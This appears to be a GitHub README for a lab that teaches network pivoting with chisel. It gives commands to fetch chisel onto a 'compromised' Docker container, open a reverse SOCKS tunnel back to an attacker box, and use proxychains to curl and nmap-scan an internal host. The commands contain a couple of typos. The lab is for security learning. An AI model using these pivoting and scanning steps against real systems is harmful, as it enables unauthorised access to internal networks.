


# Playing with chisel
A small repo with examples to play with chisel

---

# Requirements:

- A Linux system/Attacker Box (I will use Manjaro)
- 2 Linux Docker Containers (I will use 2 Ubuntu containers)

---

# On our Attacker Box:

We will download <code>chisel</code> from the github repo:

```
https://github.com/jpillora/chisel
```

I will version <code>v1.7.7</code>


<i>NOTE:</i> If we attack a Windows system the Windows and Linux chisel must be on the same version e.g: 1.7.7

We install:

```bash
sudo packman -Sy proxychains
```

---

# On the Victim Containers

```bash
docker run -ti -h external ubuntu
docker run -ti -h internal ubuntu
```

The container named `external` is the one that we will use as a pivot to access the `internal` container


On the 2 containers we run:

```bash
apt update
apt install wget
apt install net-tools
pat install python3
```


---

# POC:

The `external` machine has the IP address: `172.17.0.3`


The `internal` machine has the IP address: `172.17.0.2`


On the `internal` machine we start a `Simple Python HTTP Server on TCP Port 8080`

```bash
python3 -m http.server 8080
```


We will try to access the HTTP server on the `internal` machine with a `curl` from out `Attacker Box` with the IP of `external`.

On the `external` machine we transfer `chisel`:

```bash
wget 192.168.1.36:8081/chisel
```

<i>NOTE:</i> The system with IP address `192.168.1.36` is my Manjaro Box wich runs an HTTP server on TCP Port 8081 to transfer files.


On our `Attacker Box` we run `chisel` as a server on port 8000 in `reverse mode` for reverse port forwarding

```bash
./chisel server -p 8000 --reverse
```


On the 'compromised' `external` machine we run the `chisel` client and use a socks proxy:

```bash
./chisel client 192.168.1.36:8000 R:socks
```




The default socks port is the TCP Port 1080.

On our Attacker Box we have configure `proxychains` to use the socks5 proxy on TCP Port 1080:

```bash
sudo nvim /etc/proxychains.conf
```



We add the last line:

```
socks5 127.0.0.1 1080
```

Now we can use `proxychains` before any command in order to pass the traffic from the pivot machine (`external`)

On our `Attacker Box`:

```bash
proxychains curl 172.17.0.2:8080
```


As we can see there is a GET request on the TCP Port 8080 on the `internal` machine which came from the pivot(`external`) machine:


---

# Scanning with proxychains:

On our Attacker Box:

```bash
proxychains nmap -Pn -sV -sC  172.17.0.2
```


